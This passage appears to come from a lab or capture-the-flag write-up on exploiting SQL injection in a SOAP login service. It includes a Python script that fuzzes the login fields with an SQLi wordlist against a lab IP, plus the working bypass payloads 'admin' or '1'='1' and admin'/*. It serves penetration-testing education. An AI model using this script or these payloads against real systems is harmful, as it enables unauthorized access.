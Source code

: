   ```xml
  <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>admin</username><password>test</password></LoginRequest></soap:Body></soap:Envelope>
  ```

* It is given that there is an SQLi vulnerability - this needs to be identified through SOAP messages. As we have 2 fields here - username & password - we can inject our SQLi payload there itself.

* We can use a script to automate the above process:

  ```py
  import requests
  import sys
  import os.path

  if (len(sys.argv) == 2) and (os.path.isfile(sys.argv[1])):
    f_payloads = sys.argv[1]
  else:
    print("[!] Please check wordlist")
    print("[-] Usage: python3 {} /path/to/sqli/payload/wordlist".format(sys.argv[0]))
    sys.exit()

  payloads = []
  with open(f_payloads) as fh:
    for line in fh:
      payloads.append(line.rstrip('\n'))

  for _p in payloads:
    print("[-] Checking SQLi against payload {}".format(_p))
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>{_p}</username><password>{_p}</password></LoginRequest></soap:Body></soap:Envelope>'
    try:
      res = requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"Login"'}, timeout=1)
      # ignoring multiple line responses to filter out errors
      if '\n' not in res.text:
        print(res.text)
    except requests.Timeout:
      print("[-] Timeout")
      pass
  ```

  ```sh
  python3 soaplogin.py /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt
  ```

* From the script, we can see that we get a correct response with the flag using 2 payloads - ```admin' or '1'='1``` or ```admin'/*``` - both of them can be found in above wordlist
